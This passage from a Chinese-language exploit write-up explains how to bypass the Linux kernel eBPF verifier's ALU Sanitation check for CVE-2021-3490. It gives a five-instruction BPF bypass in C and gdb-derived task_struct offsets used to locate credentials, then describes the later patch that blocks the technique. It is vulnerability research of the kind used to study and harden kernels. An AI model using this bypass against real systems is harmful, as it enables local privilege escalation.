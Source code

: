 ```c
*patch++ = BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit - 1);
```

这个漏洞的存在，导致`ALU Sanitation`机制失效了，因为 `alu_limit` 变得很大了，检测不到越界访问，所以之前那些公开的exp都能利用成功。但是这个漏洞被修复以后，就需要绕过这个限制，需要多加5条指令来绕过该机制。

**绕过该ALU Sanitation**：`r7`指向map，`r6`是`verifier`以为是0而运行时为1的那个值。需要在r7指针进行运算前，使`alu_limit != 0`。

- （1）`r8 = r6` 先拷贝一下—— `r8  verifier:0  runtime:1`。
- （2）`r7 += 0x1000`，map指针加上一个常量，以设置`alu_limit=0x1000`，这样就能绕过运行时的`ALU Sanitation`。
- （3）`r8 = r8 * 0xfff`—— `r8 verifier:0  runtime:0xfff`。
- （4）`r7 -= r8`， 由于`verifier`以为r8等于0，所以`alu_limit`保持不变。
- （5）`r7 -= r6` —— `r7 verifier:map+0x1000  runtime:map`。

**注意**：

- 创建map时必须足够大，调用`syscall(__NR_BPF, BPF_MAP_CREATE, ...)`时第3个参数 `bpf_attr->value_size`要大于0x1000，不然执行第2条指令时就会报指针越界的错误。

  ```c
      BPF_MOV64_REG(BPF_REG_8, BPF_REG_6),          // 1-1. (bf) r8 = r6  BPF_REG_3 = BPF_REG_6   !!! 1-1 -> 1-5  是为了绕过alu_limit的限制
      BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x1000),        // 1-2. (07) r7 += 0x1000       !!! 注意，map不能过小，小于0x1000 就报错
      BPF_ALU64_IMM(BPF_MUL, BPF_REG_8, 0xfff),       // 1-3. verifier: r8=0;    runtime: r8=0x1000-1
      BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_8),     // 1-4. r7 -= r8
      BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_6),       // 1-5. r7 -= r6
  ```

- 和`Linux v5.11` 版本相比，还需要修改cred search的相关偏移：

  ```bash
  gef➤  p/x &(*(struct task_struct *)0)->pid
  $9 = 0x918
  gef➤  p/x &(*(struct task_struct *)0)->cred
  $10 = 0xad8
  gef➤  p/x &(*(struct task_struct *)0)->tasks
  $11 = 0x818
  ```

  

---

## 4. 漏洞利用 Linux v5.11.16以后的版本

**特点**：目前无法绕过最新的`ALU Sanitation`保护机制。2021年4月`ALU Sanitation`引入新的 patch—[commit 7fedb63a8307](https://git.kernel.org/pub/scm/linux/kernel/git/bpf/bpf.git/commit/?id=7fedb63a8307dda0ec3b8969a3b233a1dd7ea8e0)，新增了两个特性。

- 一是`alu_limit`计算方法变了，不再用指针寄存器的位置来计算，而是使用offset寄存器。例如，假设有个寄存器的无符号边界是 `umax_value = 1, umin_value = 0`，则计算出 `alu_limit = 1`，表示如果该寄存器在运行时超出边界，则指针运算不会使用该寄存器。

- 二是在runtime时会用立即数替换掉 `verifier` 认定为常数的寄存器。例如，`BPF_ALU64_REG(BPF_ADD, BPF_REG_2, EXPLOIT_REG)` ，`EXPLOIT_REG `被verifier认定为0，但运行时为1，则 将该指令改为 `BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0)`。这个补丁本来是为了防侧信道攻击，同时也阻止了 `CVE-2021-3490` 漏洞的利用。
